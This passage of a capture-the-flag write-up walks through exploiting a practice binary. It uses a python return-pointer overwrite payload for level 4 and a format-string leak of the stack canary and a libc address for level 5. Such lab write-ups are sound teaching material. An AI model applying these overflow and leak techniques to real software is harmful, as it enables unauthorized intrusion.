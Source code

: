 Looks like we've overwritten the saved return pointer somehow.

```
# cyclic -o 0x62616163
108
```

This is at offset 108. So we just need to overwrite the saved return pointer with the address of `goal()` and we're done. 

```
# python -c 'print "73\n" + "A"*108 + "\x7c\xa4\x04\x08"' | ./level4
----- LEVEL 4 -----
Choose an action: Hey traveler, what is your name? Running action 73...
Excellent reverse engineering! Level 4 complete.
----- LEVEL 5 -----
This is your final task - defeat this level and you will be rewarded.
Choose your path to victory...

Choice [0 exit][1 small][2 large][3 format]: Your chosen path leads you...straight down a mine shaft. You perish.
````

#### Level 5

Final level! This one gives us the option to exploit the binary using either a small buffer overflow, a large buffer overflow, or a format string vulnerability. Easy, I thought, let's just go with the large buffer overflow.

Turns out, not so much. 

A stack canary is compiled into the binary, so both of the overflow functions will just cause the binary to abort if we overwrite the stack canary. I took a look at the format string angle and realized I could use it to leak the stack canary which was at offset 71: 

```
# ./level5
----- LEVEL 5 -----
This is your final task - defeat this level and you will be rewarded.
Choose your path to victory...

Choice [0 exit][1 small][2 large][3 format]: 3
Path 3 - The possibilities are endless!
%71$p
0x4744f44a6bfb3300
Still alive?

Choice [0 exit][1 small][2 large][3 format]:
```

With the stack canary leaked, I could now go the overflow route. The easiest way to solve it would be to return to a one-gadget-rce to get an instant shell. However to do that, I needed to leak an address in libc so I could calculate its base address and add the offset of the one-gadget-rce in the provided libc.so to it.

A libc leak can be obtained from the format string vulnerability as well. At offset 67 we have an address for _IO_2_1_stdout. This is at offset 0x3c5620 in the provided libc.so
